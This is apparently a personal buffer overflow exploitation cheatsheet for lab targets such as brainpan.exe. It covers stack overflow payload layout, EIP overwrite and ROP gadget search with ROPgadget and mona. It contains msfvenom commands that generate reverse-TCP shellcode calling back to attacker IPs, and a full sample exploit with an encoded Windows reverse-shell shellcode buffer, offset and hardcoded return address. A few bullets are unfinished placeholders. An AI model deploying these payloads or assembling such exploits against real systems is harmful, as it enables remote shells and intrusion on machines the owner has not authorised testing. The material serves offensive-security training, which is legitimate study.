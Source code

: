 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
For Windows vulnerable machine
1. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=192.168.1.77 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
2. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00' BufferRegister=EAX -f python

For Linux vulnerable machine
1. msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
```

## Payload Format

* **payload = junk + shell\_addr + \(nops + shellcode\)**
  * `junk` : is offset before the EIP overwritten.
  * `shell_addr` : is the address which we overwrite on the EIP register.
  * `(nops + shellcode)` : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

3\) Even if the shellcode is not running

* It could be due to bad characters. There is a method to find bad characters.

## ROP Gadgets

* Different types of ROP gadgets. Depending on the ROP gadget we decide the payload format.
  * JMP ESP
  * POP RET
  * POP POP RET
* Not when we use ROP gadget, we inject our shellcode inside the "junk" text itself. From experience we  know that "**there is call made back to the stack"** after execution of ROP gadget which points to start of the "junk" address.
* The format **payload = buf + junk\_remaining + ROP\_addr** is for **POP RET**
  * where `buf` is our reverse tcp shellcode
  * where `junk_remaining` = junk - len\(buf\)
  * where `ROP_addr` is the address of the ROP gadget.
* The format **payload = junk + ROP\_addr + shellcode** is for **JMP ESP**
* d

### Sample payload

```text
buf =  ""
buf += "\x48\xf5\x40\x42\x2f\x48\x4a\x49\x99\x4b\xb8\x1b\xa4"	#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.137.141 LPORT=10000 -n 10 --arch x86 --platform windows -f python -b "\x00"
buf += "\x79\xd9\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x52"	# nops are pre included in shellcode.
buf += "\x31\x45\x12\x03\x45\x12\x83\xde\xa0\x9b\x2c\x1c\x40"
buf += "\xd9\xcf\xdc\x91\xbe\x46\x39\xa0\xfe\x3d\x4a\x93\xce"
buf += "\x36\x1e\x18\xa4\x1b\x8a\xab\xc8\xb3\xbd\x1c\x66\xe2"
buf += "\xf0\x9d\xdb\xd6\x93\x1d\x26\x0b\x73\x1f\xe9\x5e\x72"
buf += "\x58\x14\x92\x26\x31\x52\x01\xd6\x36\x2e\x9a\x5d\x04"
buf += "\xbe\x9a\x82\xdd\xc1\x8b\x15\x55\x98\x0b\x94\xba\x90"
buf += "\x05\x8e\xdf\x9d\xdc\x25\x2b\x69\xdf\xef\x65\x92\x4c"
buf += "\xce\x49\x61\x8c\x17\x6d\x9a\xfb\x61\x8d\x27\xfc\xb6"
buf += "\xef\xf3\x89\x2c\x57\x77\x29\x88\x69\x54\xac\x5b\x65"
buf += "\x11\xba\x03\x6a\xa4\x6f\x38\x96\x2d\x8e\xee\x1e\x75"
buf += "\xb5\x2a\x7a\x2d\xd4\x6b\x26\x80\xe9\x6b\x89\x7d\x4c"
buf += "\xe0\x24\x69\xfd\xab\x20\x5e\xcc\x53\xb1\xc8\x47\x20"
buf += "\x83\x57\xfc\xae\xaf\x10\xda\x29\xcf\x0a\x9a\xa5\x2e"
buf += "\xb5\xdb\xec\xf4\xe1\x8b\x86\xdd\x89\x47\x56\xe1\x5f"
buf += "\xc7\x06\x4d\x30\xa8\xf6\x2d\xe0\x40\x1c\xa2\xdf\x71"
buf += "\x1f\x68\x48\x1b\xda\xfb\xb7\x74\x6d\x76\x5f\x87\x6d"
buf += "\xae\xb0\x0e\x8b\xda\xa0\x46\x04\x73\x58\xc3\xde\xe2"
buf += "\xa5\xd9\x9b\x25\x2d\xee\x5c\xeb\xc6\x9b\x4e\x9c\x26"
buf += "\xd6\x2c\x0b\x38\xcc\x58\xd7\xab\x8b\x98\x9e\xd7\x03"
buf += "\xcf\xf7\x26\x5a\x85\xe5\x11\xf4\xbb\xf7\xc4\x3f\x7f"
buf += "\x2c\x35\xc1\x7e\xa1\x01\xe5\x90\x7f\x89\xa1\xc4\x2f"
buf += "\xdc\x7f\xb2\x89\xb6\x31\x6c\x40\x64\x98\xf8\x15\x46"
buf += "\x1b\x7e\x1a\x83\xed\x9e\xab\x7a\xa8\xa1\x04\xeb\x3c"
buf += "\xda\x78\x8b\xc3\x31\x39\xbb\x89\x1b\x68\x54\x54\xce"
buf += "\x28\x39\x67\x25\x6e\x44\xe4\xcf\x0f\xb3\xf4\xba\x0a"
buf += "\xff\xb2\x57\x67\x90\x56\x57\xd4\x91\x72"

junk = 'A'* (524 - len(buf))        #where 524 is the offset after which EIP is overwritten.    
rop_addr = '\x25\x27\x21\x77'        #77212725

payload = buf + junk + rop_addr
```

![](../.gitbook/assets/image%20%2836%29.png)

* Right click on the command box -&gt; Search for -&gt; Sequence of commands

```text
POP EAX
POP EBX
RET
```

* "ctrl + l" to find the next search result.

### Finding ROP in linux 1

* Used to find ROP gadgets in a .exe file.
* Download the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) script.
* Using ROPgadget find the ROP gadgets on the vulnerable .exe file.

![](../.gitbook/assets/image%20%2862%29.png)

### Finding ROP in linux 2

* d

### Finding ROP gadgets in immunity debugger

* We could used this approach to find ROP gadgets in modules only. We cannot use it on .exe files.
* modules means all .dll files that the current program uses. 
* `!mona modules`
* Then we need to decide which modules to use. We use that modules that have most of the necessary protection mechanisms disabled. Like "ASLR", "DEP", "NX" ,etc.

![list of modules](../.gitbook/assets/image%20%286%29.png)

* We selected the brainpan.exe executable as all of the security protections are disabled.
* Our task now is to statically find ROP gadgets. We now can use "[Finding ROP in linux 1](./#finding-rop-in-linux-1)" approach for this mentioned above.

### Could the same exploit on windows x86 be used in linux x86 without modifying a single information?

* Yes but we need some Requirements for this:
  * Run `!mona modules` We need essential memory protection mechanisms disabled on the vulnerable `.exe` file
  * There should be ROP gadgets in the `.exe` file.
  * We need to run the same `.exe` file on the x86 linux machine.
* The only issue with such kind of exploit are the "**hardcoded addresses**".
* If we use ROP gadget method "JMP ESP" for buffer overflow, we have only one hardcoded address, that is of the address of the ROP gadget.
* If we met all the requirements mentioned above. Then the ROP gadget address will not change irrespective of the underlying OS, as it is present inside the `.exe` file itself. 

